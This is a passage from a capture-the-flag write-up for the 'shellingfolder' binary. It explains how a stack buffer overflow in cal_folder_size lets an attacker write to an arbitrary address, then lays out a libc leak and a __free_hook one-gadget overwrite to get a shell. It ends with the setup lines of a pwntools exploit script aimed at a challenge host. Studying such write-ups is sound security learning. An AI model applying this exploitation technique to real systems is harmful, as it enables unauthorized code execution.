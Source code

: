 ```c
            else
            {
                printf("%s : size %ld\n", &s, cur_folder->sub_file[idx]->file_size);
                *v3 += cur_folder->sub_file[idx]->file_size;
            }
        }
        ++idx;
    }
    printf("The size of the folder is %ld\n", cur_folder->file_size);

}
```
When we set a file's name, we can input at most 31 characters. Inside the `cal_folder_size` function, the program will try to copy the file's name into a buffer `s`, which its size is only 24 bytes long. The vulnerability will cause the program to overwrite the `v3` variable.

The `v3` variable is an `int*` type pointer, which points to the current folder's `file_size`. Since we can overwrite this pointer, we can try to control this pointer and the size of the `sub_file[idx]`, so when the program execute the code at line:
```c
*v3 += cur_folder->sub_file[idx]->file_size
```
**it will actually let us control the value of any address.**

But remember the program has all the protection enabled, including **PIE**, so first we'll have to leak some address. Here's how I leak the address of the libc:

1. Create & delete some folders, so the pointer that points to the head of smallbin will appear on the heap memory.
2. Exploit the buffer overflow vulnerability, partial overwrite the `v3` pointer and make it point to a `struct file` pointer `p` ( `*v3 = p`).  
3. Control a `sub_file`'s `file_size`, so when it comes to the line `*v3 += cur_folder->sub_file[idx]->file_size`, it will adjust the value of `p`, making `p->name` point to the libc's address ( address of the smallbin's head )
4. List the files in the current folder and leak the libc's address.

After we got the libc's address, we can use the same vulnerability to overwrite the `__free_hook` function pointer into the address of **one gadget**, and get the shell by deleting a file. Notice that `file_size` stores the value returned by `atoi`, a four-byte integer, so we'll have to overwrite `__free_hook` twice : first  overwrite `__free_hook`,  then overwrite `__free_hook+4`.

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "52.69.237.212"
#HOST = "127.0.0.1"
PORT = 4869
ELF_PATH = "./shellingfolder_noalarm"
#LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"
LIBC_PATH = "./libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)
```